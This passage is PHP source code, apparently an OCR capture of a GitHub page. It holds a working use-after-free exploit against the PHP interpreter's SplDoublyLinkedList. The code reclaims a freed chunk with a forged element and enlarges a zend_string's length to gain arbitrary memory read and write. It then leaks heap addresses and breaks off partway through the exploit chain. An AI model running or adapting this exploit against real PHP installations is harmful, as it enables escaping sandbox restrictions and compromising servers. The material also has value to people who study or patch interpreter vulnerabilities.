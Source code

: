 ```php


class UAFTrigger
{
    function __destruct()
    {
        global $dlls, $strs, $rw_dll, $fake_dll_element, $leaked_str_offsets;

        #"print('UAF __destruct: ' . "\n");
        $dlls[NB_DANGLING]->offsetUnset(0);

        # At this point every $dll->current points to the same freed chunk. We allocate
        # that chunk with a string, and fill the zval part
        $fake_dll_element = str_shuffle(str_repeat('A', SIZE_ELEM_STR));
        i2s($fake_dll_element, 0x00, 0x12345678); # ptr
        i2s($fake_dll_element, 0x08, 0x00000004, 7); # type + other stuff

        # Each of these dlls current->next pointers point to the same location,
        # the string we allocated. When calling next(), our fake element becomes
        # the current value, and as such its rc is incremented. Since rc is at
        # the same place as zend_string.len, the length of the string gets bigger,
        # allowing to R/W any part of the following memory
        for($i = 0; $i <= NB_DANGLING; $i++)
            $dlls[$i]->next();

        if(strlen($fake_dll_element) <= SIZE_ELEM_STR)
            die('Exploit failed: fake_dll_element did not increase in size');

        $leaked_str_offsets = [];
        $leaked_str_zval = [];

        # In the memory after our fake element, that we can now read and write,
        # there are lots of zend_string chunks that we allocated. We keep three,
        # and we keep track of their offsets.
        for($offset = SIZE_ELEM_STR + 1; $offset <= strlen($fake_dll_element) - 40; $offset += 40)
        {
            # If we find a string marker, pull it from the string list
            if(s2i($fake_dll_element, $offset + 0x18) == STR_MARKER)
            {
                $leaked_str_offsets[] = $offset;
                $leaked_str_zval[] = $strs[s2i($fake_dll_element, $offset + 0x20)];
                if(count($leaked_str_zval) == 3)
                    break;
            }
        }

        if(count($leaked_str_zval) != 3)
            die('Exploit failed: unable to leak three zend_strings');

        # free the strings, except the three we need
        $strs = null;

        # Leak adress of first chunk
        unset($leaked_str_zval[0]);
        unset($leaked_str_zval[1]);
        unset($leaked_str_zval[2]);
        $first_chunk_addr = s2i($fake_dll_element, $leaked_str_offsets[1]);

        # At this point we have 3 freed chunks of size 40, which we can read/write,
        # and we know their address.
        print('Address of first RW chunk: 0x' . dechex($first_chunk_addr) . "\n");

        # In the third one, we will allocate a DLL element which points to a zend_array
```